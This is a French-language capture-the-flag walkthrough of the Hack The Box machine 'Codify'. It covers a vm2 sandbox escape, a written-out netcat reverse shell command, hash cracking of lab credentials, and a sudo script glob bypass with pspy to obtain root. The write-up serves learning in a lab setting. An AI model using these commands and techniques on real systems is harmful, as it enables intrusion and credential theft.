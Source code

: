 ```yaml
---
title: Codify - HacktheBox
date: 2024-04-15 02:01:30 +0000
description: Codify est une machine Linux simple qui comporte une application web permettant aux utilisateurs de tester du code Node.js. L'application utilise une bibliothèque `vm2` vulnérable, qui est utilisée pour exécuter du code à distance. L'énumération de la cible révèle une base de données SQLite contenant un hachage qui, une fois craqué, donne un accès SSH à la Box. Enfin, un script Bash vulnérable peut être exécuté avec des privilèges élevés pour révéler le mot de passe de l'utilisateur root, conduisant à un accès privilégié à la machine.

categories: [HacktheBox]
tags: [HTB, vm2, sudo]
image:
    path: https://i.ibb.co/kDd16rd/Copie-de-Manager.png
---
```



- **[The Best Academy to Learn Hacking](https://affiliate.hackthebox.com/nenandjabhata)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


## Reconnaissance

Pour commencer je fais un petit scan sur la Box avec `nmap`
```sh
└─# nmap -sV -Pn -p- --min-rate 3000 $ip
Host is up (0.76s latency).
Not shown: 65470 closed tcp ports (reset), 62 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Je trouve un site dans le port 80 avec comme domain `codify.htb` donc je vais l'ajouter dans le `/etc/hosts`
```sh
─# echo "$ip  $host" | tee -a /etc/hosts                                  
10.10.11.239  codify.htb
```

Dans le site je trouve qu'on me dit que : *La plateforme Codify permet aux utilisateurs d'écrire et d'exécuter du code Node.js en ligne, mais certaines limitations sont en place pour garantir la sécurité de la plateforme et de ses utilisateurs.*
Ensuite dans le `about` je trouve une ligne interessante qui index le libray `Vm2`
![About](https://i.ibb.co/qWLWFjX/vm2.png)

En cliquant sur le Lien je trouve le github et aussi dans `Security` je trouve `7` vulnerabilites critique, a l'aide duquel j'utilise cet [issue](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac) pour avoir un RCE.

![RCE](https://i.ibb.co/9brxYL8/vm2.png)

En l'exploitant et en faisant un `id` je trouve `uid=1001(svc) gid=1001(svc) groups=1001(svc)`

Maintenant je vais creer un reverse shell

```sh
execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.5 1337 >/tmp/f").toString();

$sudo rlwrap nc -lnvp 1337                      
listening on [any] 1337 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.239] 37202
bash: cannot set terminal process group (1266): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ 

```

### Mouvement Lateral
Dans le `/home` je trouve un autre utilisateur `joshua`. Donc je vais recolter des informations sur cet utilisateur.

```sh
svc@codify:/home$ ls
joshua svc

ls -la *
contact:
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12  2023 .
drwxr-xr-x 5 root root  4096 Sep 12  2023 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12  2023 tickets.db

```

Pour cela je me suis rendu dans le `/var/www` puis dans le `/contact` du serveur je trouve un `tickets.db`

```sh
sqlite3 tickets.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .table.tables
.tables
tickets  users  
sqlite> SELECTSELECT * FROM users;
SELECT * FROM users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite>
```

Je trouve donc un hash de l'utilisateur en question, alors je vais utiliser `hashcat` pour la cracker

```sh
# hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -o passwd.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz, 2868/5800 MB (1024 MB allocatable), 8MCU
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
Time.Started.....: Mon Apr 15 02:26:15 2024 (42 secs)
Time.Estimated...: Mon Apr 15 02:26:57 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       34 H/s (7.18ms) @ Accel:8 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1408/14344387 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1344/14344387 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: rayray -> ranger
Hardware.Mon.#1..: Temp: 59c Util: 93%

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Maintenant je vais me connecter au ssh avec ce creds

## Privilege Escalation

Je trouve un script bash que je peux lancer avec `root`.
```sh
joshua@codify:~$ cat user.txt 
9612c3391fcd75f14ea72c6f06e57e3a
joshua@codify:~$ 
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Bon, je vais d'abord lire le code et voir ce que ce script fait.

```sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

En lancant ce script avec l'utilisateur `root`, Le script nous demande un mot de passe qui est comparé à celui contenu dans `/root/.creds`. S'il correspond, il utilise le mot de passe pour se connecter à mysql et exécuter quelques commandes.

Comme c'est un script `bash` on peux essayer de bypasser la demande du mot de passe avec le caractere `*` pour selectionner tout et voir

```sh
joshua@codify:~$ sudo -u root /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Ici on voit bien que tout est bon et c'est deja executer mais le probleme est qu'on voit les taches effectuer derriere ou les mot de passe qui sont entrer. Alors on va utiliser l'outil `pspy` pour voir ce qui se passe derriere.


>>pspy est un outil en ligne de commande conçu pour espionner les processus sans avoir besoin des autorisations `root`. Il vous permet de voir les commandes exécutées par d'autres utilisateurs, les tâches cron, etc. au fur et à mesure qu'elles s'exécutent. Il est idéal pour énumérer les systèmes Linux dans les CTF. Il est également idéal pour montrer à vos collègues pourquoi passer des secrets comme arguments sur la ligne de commande est une mauvaise idée.
>{: .prompt-info}

```sh
joshua@codify:/tmp/priv$ ./pspy64 -f
2024/04/15 02:42:20 CMD: UID=0    PID=2625   | /bin/bash /opt/scripts/mysql-backup.sh                                                                     
2024/04/15 02:42:20 CMD: UID=0    PID=2624   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys  

```

Dans les taches executer je vois un mot de passe utiliser pour se connecter a la base de donnees `mySQL` sur le port `3306`. Alors je vais essayer cela pour acceder a l'utilisateur `root`

![Pwned](https://i.ibb.co/stLG714/pwned.png)

## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [ Vm2 Issue](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac)
- [Pspy](https://github.com/DominicBreuker/pspy)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
